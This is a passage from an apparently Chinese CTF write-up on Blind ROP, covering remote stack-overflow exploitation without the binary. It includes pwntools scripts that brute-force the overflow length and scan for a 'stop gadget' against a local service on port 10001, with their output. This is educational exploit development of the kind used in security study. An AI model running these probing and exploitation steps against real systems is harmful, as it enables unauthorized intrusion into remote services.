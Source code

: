 
## BROP 原理和题目解析
BROP 即 Blind ROP，需要我们在无法获得二进制文件的情况下，通过 ROP 进行远程攻击，劫持该应用程序的控制流，可用于开启了 ASLR、NX和栈canaries的 64-bit Linux。这一概念是是在 2014 年提出的，论文和幻灯片在参考资料中。

实现这一攻击有两个必要条件：
1. 目标程序存在一个栈溢出漏洞，并且我们知道怎样去触发它
2. 目标进程在崩溃后会立即重启，并且重启后进程被加载的地址不变，这样即使目标机器开启了 ASLR 也没有影响。

下面我们结合题目来讲一讲。

#### 栈溢出
首先是要找到栈溢出的漏洞，老办法从 1 个字符开始，暴力枚举，直到它崩溃。
```python
def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size
```
```
[*] buffer size: 72
```
要注意的是，崩溃意味着我们覆盖到了返回地址，所以缓冲区应该是发送的字符数减一，即 buf(64)+ebp(8)=72。该题并没有开启canary，所以跳过爆破的过程。

#### stop gadget
在寻找通用 gadget 之前，我们需要一个 stop gadget。一般情况下，当我们把返回地址覆盖后，程序有很大的几率会挂掉，因为所覆盖的地址可能并不是合法的，所以我们需要一个能够使程序正常返回的地址，称作 stop gadget，这一步至关重要。stop gadget 可能不止一个，这里我们之间返回找到的第一个好了：
```python
def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
            return addr
        except EOFError as e:
            p.close()
            log.info("bad: 0x%x" % addr)
        except:
            log.info("Can't connect")
            addr -= 1
```
由于我们在本地的守护脚本略简陋，在程序挂掉和重新启动之间存在一定的时间差，所以这里 `sleep(0.1)` 做一定的缓冲，如果还是冲突，在 `except` 进行处理，后面的代码也一样。
```
[*] stop address: 0x4005e5
```